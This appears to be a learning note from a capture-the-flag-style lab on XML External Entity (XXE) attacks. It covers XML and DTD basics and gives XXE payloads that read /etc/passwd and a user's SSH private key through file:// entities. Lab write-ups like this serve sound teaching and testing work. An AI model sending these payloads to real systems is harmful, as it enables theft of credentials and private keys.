

04 - XML External Entity

# XML External Entity (XXE)

Note:
- XXE vulnerabilities attack is a vulnerability that allows attackers abuse/interfere an application's proccessing of XML data, a bit  similar to SQL injection.
- There are two types XXE attacks, in-band and out-band XXE.
- In-band XXE means attacker can receive immediate response to the XXE payload
- Out-band/blind XXE means attacker need to reflect it somewhere such as their own web/live server in order to see the response of XXE payload.


## eXtensible Markup Language (XML)

XML is a markup language that commonly used to transfer data between browser and server like json.

XML has a set of rule for encoding documents in a format that is both readable by human and machine.

### Why XML?
- Independent from programming language and platform
- XML document allows validation using DTD and Schema, free from syntax error.

### Structure of XML:

XML Prolog - Not compulsory but good practice
```
<?xml version="1.0" encoding="UTF-8"?>
```
Every XML document must contain a `ROOT` element. For example:

```
<?xml version="1.0" encoding="UTF-8"?>
<mail>
   <to>falcon</to>
   <from>feast</from>
   <subject>About XXE</subject>
   <text>Teach about XXE</text>
</mail>
```

`<mail>` is root element
`<to>`,`<from>`,`<subject>`,`<text>` are children of `<mail>`

Without root element, XML document would be considered as invalid XML. 

XML tags are case sensitive. It can also use attributes.

```
<text category="message"> attributes added </text>
```

## Document Type Definition (DTD)

A DTD defines the stucture and attributes of an XML document.

Example DTD:
```
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
```

Example note that uses DTD for validation:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
```

## XXE Payload


Example payloads:

1) Define entity called name, assign with feast. Use it on `<lastName>`
```
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```
2) Read file from system, `/etc/passwd`
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

## Practice

Payload 1


Payload 2



> 1000 in /etc/passwd means a user account. So, ssh key should be located on /home/username/.ssh/id_rsa

Payload 2: Read SSH key

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>
```


## Question

### XML


### DTD


### Exploiting

